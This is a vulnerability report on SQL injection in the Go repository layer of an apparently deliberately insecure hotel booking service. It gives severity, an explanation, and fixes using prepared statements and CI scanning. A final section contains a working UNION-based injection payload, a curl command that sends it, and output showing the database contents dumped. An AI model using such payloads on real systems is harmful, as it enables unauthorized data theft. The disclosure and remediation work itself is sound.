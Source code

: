 # SQL Injection in [repository.go](../postgres/repository.go)

***
<font color="#df3d03">Severity : 8.8 High</font>  
Date : 04/04/2023  
Reporter : Nicolas Viaud   
Weakness enumeration : [CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)  
CVSS v3.1 Vector : `AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H`
***

If authenticated, an attacker can inject malicious code in the HTTP request in order to execute sql command directly in the postgresql database. This vulnerability is considered high because it can lead to:  
* information disclosure and alteration by bypassing authorization at the service layer
* denial of service by deleting the content of the database
* remote code execution

The 3 functions code `Insert(ctx context.Context, b innsecure.Booking) error`, `List(ctx context.Context, hotelID int) ([]innsecure.Booking, error)`, `ByID(ctx context.Context, hotelID int, ID string) (*innsecure.Booking, error)` of the [repository.go](../postgres/repository.go) file are vulnerable.  
 
### Explanation
Here an extract of the function `List(ctx context.Context, hotelID int) ([]innsecure.Booking, error)`:
```go
stmt := fmt.Sprintf(`select "id", "hotelid", "arrive", "leave", "name" from "Bookings" WHERE hotelid='%d'`, hotelID)
rows, err := r.db.Query(stmt)
```
Because the SQL query is generated by a simple string format, parameters are not sanitize correctly. Special SQL characters like `'`,`--` will be interpreted as part of the query and can lead to some unexpect behavior. For example, if the parameter `hotelID` is set to `' or '1' = '1`, the real query execute to the database would be `select "id", "hotelid", "arrive", "leave", "name" from "Bookings" WHERE hotelid='' or '1' = '1'` and would bypass the hotel id criteria.

### Development Fix

#### Task 1
To protect against SQL injection, ALL the queries to the database should use prepared statements like describe in the [official documentation](https://go.dev/doc/database/sql-injection).  
As an example, the non vulnerable version of the function `List(ctx context.Context, hotelID int) ([]innsecure.Booking, error)` would be:
```go
stmt := `select "id", "hotelid", "arrive", "leave", "name" from "Bookings" WHERE hotelid=$1`
rows, err := r.db.Query(stmt, hotelID)
```

#### Task2
Add a step in the CI that block the merge of the branch if a SAST tool (like SonarQube) detect some code vulnerable to SQL injection.


### Example of exploit (for curious people only)
The REST endpoint `/hotels/$hotelId/bookings/$bookingId` can be abused because bookingId can be modified by the users and is used in the query.

The goal of this exploit is to retrieve all the booking id, hotel id and booking name of the database.
To achieve this goal, an example of payload to put in the url could be `00000000-0000-0000-0000-000000000000' union select '00000000-0000-0000-0000-000000000000', 0, array_to_string(array_agg("id"),' | '), array_to_string(array_agg("hotelid"),' | '), array_to_string(array_agg("name"),' | ') from "Bookings" where '1'='1`.  
The resulting query would be `select "id", "hotelid", "arrive", "leave", "name" from "Bookings" where "hotelid"='123' and "id"='00000000-0000-0000-0000-000000000000' union select '00000000-0000-0000-0000-000000000000', 0, array_to_string(array_agg("id"),' | '), array_to_string(array_agg("hotelid"),' | '), array_to_string(array_agg("name"),' | ') from "Bookings" where '1'='1'`.  

You can find below the curl command to exploit this vulnerability:
```shell
VALID_TOKEN=#paste valid JWT token
curl 'http://localhost:8080/hotels/789/bookings/00000000-0000-0000-0000-000000000000%27%20union%20select%20%2700000000-0000-0000-0000-000000000000%27%2C%200%2C%20array_to_string(array_agg(%22id%22)%2C%27%20%7C%20%27)%2C%20array_to_string(array_agg(%22hotelid%22)%2C%27%20%7C%20%27)%2C%20array_to_string(array_agg(%22name%22)%2C%27%20%7C%20%27)%20from%20%22Bookings%22%20where%20%271%27%3D%271' --header 'Authorization: Bearer ${VALID_TOKEN}' | jq .
```
The result of the command is printed below :
```json
{
  "type": "",
  "id": "00000000-0000-0000-0000-000000000000",
  "version": 0,
  "hotel_id": 0,
  "arrive": "968bc972-e88e-4b7c-8730-fce0ca931b6a | 79c5f7d7-a301-434c-8f96-52ae476cf3e3",
  "leave": "123 | 456",
  "name": "booking1 | booking2"
}
```
All booking id are in the json field `arrive`.  
All hotel id are in the json field `leave`.  
All booking name id are in the json field `name`.  